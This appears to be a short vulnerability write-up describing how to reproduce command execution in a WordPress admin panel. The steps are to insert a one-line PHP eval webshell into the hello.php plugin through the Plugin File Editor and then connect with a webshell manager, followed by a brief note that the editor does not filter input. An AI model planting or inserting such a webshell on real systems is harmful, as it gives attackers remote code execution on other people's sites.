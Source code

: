 # WordPress Background command execution vulnerability 
## Build the local environment
https://cn.wordpress.org/download/#download-install
## Vulnerability recurrence

/wp-admin/profile.php
![image](https://user-images.githubusercontent.com/45749015/216503131-25f90fa2-17f2-48f5-b52f-579d49ab3c1c.png)

Click >> Tools  >> Plugin File Editor  >>  Change Code hello.php   >>  Add Code <?php eval(@$_POST['password']);?>
 >> Save
 ![image](https://user-images.githubusercontent.com/45749015/216503630-cbe9baa1-aff5-4dbc-be66-9107e5102a0b.png)
Use the webshell management tool to connect
![image](https://user-images.githubusercontent.com/45749015/216503750-c1decaba-45bf-464d-9b5f-1af9ea720f43.png)
![image](https://user-images.githubusercontent.com/45749015/216503781-51f44f7b-af40-4dbd-8500-f736b217c86c.png)
## code analysis
Get address:
![image](https://user-images.githubusercontent.com/45749015/216503925-9d8f3295-946c-4d5b-b461-b7b0e8c3d94b.png)
The content is not filtered, resulting in the successful saving of illegal programs
![image](https://user-images.githubusercontent.com/45749015/216503967-c5fd373d-3d91-47a1-aaaf-87f931f3bc1e.png)
